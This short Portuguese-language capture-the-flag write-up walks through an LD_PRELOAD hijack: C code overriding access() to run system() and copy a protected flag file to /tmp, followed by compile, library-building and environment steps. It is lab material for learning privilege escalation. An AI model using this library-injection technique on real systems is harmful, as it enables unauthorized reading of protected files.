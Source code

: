 Ir para tmp folder e criar lib.c:

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

int access(const char *pathname, int mode){

      system("/usr/bin/cat /flags/flag.txt > /tmp/myfile.txt");

      return 0;
}


Dar permissões a lib.c:
`chmod 4755 lib.c`

Compilar:
`gcc -fPIC -g -c lib.c`

Criar a library:
`gcc -shared -o lib.so.1 lib.o -lc`

Criar env (cat > env) e colocar:
`LD_PRELOAD=/tmp/lib.so.1`

ir para a /home/flagreader correr:
`bash my_script.sh`

ir a tmp folder ver se existe myfile.txt e obter a flag

